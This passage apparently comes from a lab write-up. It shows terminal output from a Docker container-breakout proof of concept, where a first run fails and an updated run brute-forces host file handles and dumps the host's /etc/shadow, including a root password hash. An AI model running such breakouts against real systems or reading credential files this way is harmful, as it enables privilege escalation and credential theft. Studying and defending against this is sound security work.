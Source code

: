 ```

root@c150397ccd63:~# ./so
[***] docker VMM-container breakout Po(C) 2014             [***]                  
[***] The tea from the 90's kicks your sekurity again.     [***]                    
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]                      

<enter>
                                                                                                         
[-] open: No such file or directory 

```

But the updated version dumps `/etc/shadow` from the host:

```

root@c150397ccd63:~# ./so
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]

<enter>

[*] Resolving 'etc/shadow'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[+] Match: etc ino=393217
[*] Brute forcing remaining 32bit. This can take a while...
[*] (etc) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x01, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[*] Resolving 'shadow'
[*] Found modules-load.d
[*] Found lsb-release
[*] Found rsyslog.conf
[*] Found rc6.d
[*] Found calendar
[*] Found fstab
[*] Found shadow
[+] Match: shadow ino=393228
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x0c, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
...[snip]...
```